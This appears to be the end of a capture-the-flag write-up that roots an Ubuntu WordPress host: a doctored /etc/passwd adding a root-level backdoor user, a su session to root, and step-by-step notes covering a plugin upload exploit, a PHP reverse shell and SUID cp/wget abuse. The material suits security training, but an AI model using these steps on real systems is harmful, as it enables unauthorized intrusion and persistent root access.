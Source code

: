 ```
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:117:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
raj:x:1000:1000:raj,,,:/home/raj:/bin/bash
mysql:x:122:128:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:124:65534::/run/sshd:/usr/sbin/nologin
harshil:$1$harshil$WltreHKVrjA5Ebe0GHq8W0:0:0:root:/root:/bin/bash
```

Now I will simply switch over to the harshil user that was created. 

```
www-data@ubuntu:/var/tmp$ su harshil
Password: 
root@ubuntu:/var/tmp# whoami
root
root@ubuntu:/var/tmp# 
```

## Breakdown
---
1. Run a Port Scan find Port 80 Open then Directory Bust.
2. Find Wordpress running run WP-Scan identify multiple vulnerable plugins.
3. Use Reflex-Gallery exploit to upload php rev shell to a folder from wp-contents/uploads. (trial and error to see which folder we have write perms to)
4. Check SUID binaries: exploitable cp/wget.
5. Create a salt for a new user edit it to be in /etc/passwd format.
6. Cat /etc/passwd > passwd
7. Insert new user hash to passwd.
8. cp passwd /etc/passwd
9. Change user to get root.
